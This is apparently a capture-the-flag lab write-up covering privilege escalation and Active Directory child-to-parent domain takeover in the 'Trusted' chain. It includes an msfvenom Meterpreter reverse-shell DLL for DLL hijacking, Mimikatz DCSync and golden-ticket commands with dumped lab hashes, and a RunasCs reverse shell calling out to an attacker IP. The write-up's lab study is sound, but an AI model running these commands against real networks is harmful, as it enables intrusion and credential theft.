

### Privilege Escalation (LabDC) + Child Domain Takeover

We couldn't download the file using Evil-WinRM, so we used Impacket's `smbserver` to transfer the `KasperskyRemovalTool` from LabDC to Falcon.



We opened the file using a Windows VM and monitored it with Procmon.exe to check the processes that occurred. We filtered out the process names containing the word "KasperskyRemovalTool."



Then we filtered out the DLL files that were loaded by the application.



We were able to see that it loads a `KasperskyRemovalToolENU.dll`, but it's not there in the directory.



We also confirmed that this is a 32-bit application.



To exploit this, we used a Meterpreter payload in a DLL, renamed it as `KasperskyRemovalToolENU.dll`, and transferred it to the LABDC.

```
root@falcon:~/Vulnlab-Falcon/Chains/Trusted# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.4.157 LPORT=1234 -f dll > KasperskyRemovalToolENU.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 9216 bytes
```

After executing the EXE, we got a shell as `cpowers`.




### Privilege Escalation (TrustedDC) + Root Domain Takeover 

Cpowers is a domain admin for `lab.trusted.vl` and also has DCSync rights over the `lab.trusted.vl` domain.




*We also got the `Trusted_User` flag from the Administrators Desktop*




We performed an ExtraSIDs attack as described in [[9.2 Attacking Domain Trusts - Child -> Parent Trusts - from Windows]].

- Obtaining the KRBTGT Account's NT Hash using Mimikatz

```
meterpreter > kiwi_cmd "lsadump::dcsync /user:LAB\krbtgt" 

Credentials:                                                              Hash NTLM: c7a03c565c68c6fac5f8913fab576ebd                               ntlm- 0: c7a03c565c68c6fac5f8913fab576ebd                                 lm  - 0: 275562baeaca436b4b62a05ba13611db
```



 - Using PowerView `Get-DomainSID` function to get the SID for the child domain

```
PS C:\htb> Get-DomainSID
```

```
PS C:\Windows\Temp> Import-Module ./PowerView.ps1
PS C:\Windows\Temp> Get-DomainSID
S-1-5-21-2241985869-2159962460-1278545866
```

- Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

```
S-1-5-21-3576695518-347000760-3731839591-519
```




At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `7a03c565c68c6fac5f8913fab576ebd`
- The SID for the child domain: `S-1-5-21-2241985869-2159962460-1278545866`
- The name of a target user in the child domain : `Administrator`
- The FQDN of the child domain: `lab.trusted.vl`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3576695518-347000760-3731839591-519`


We generated a golden ticket using the information we had with Mimikatz.

```
kerberos::golden /user:hacker /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```



We were then able to DCSync and dump the hashes of the main domain.

```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all 
```



We were then able to log in to the Main DC (trusteddc) as the Administrator and obtain the root flag.



However, we couldn't read the root flag.



We changed the password of the Administrator and used RunasCs to spawn a system shell and read the root flag.

```
net user Administrator Password123##
```

```
.\RunasCs.exe Administrator "Password123##" cmd.exe -r 10.8.4.157:9001
```



*After changing the password and logging in using Evil-WinRM with the new password, it also gave us permission to read the flag.*

---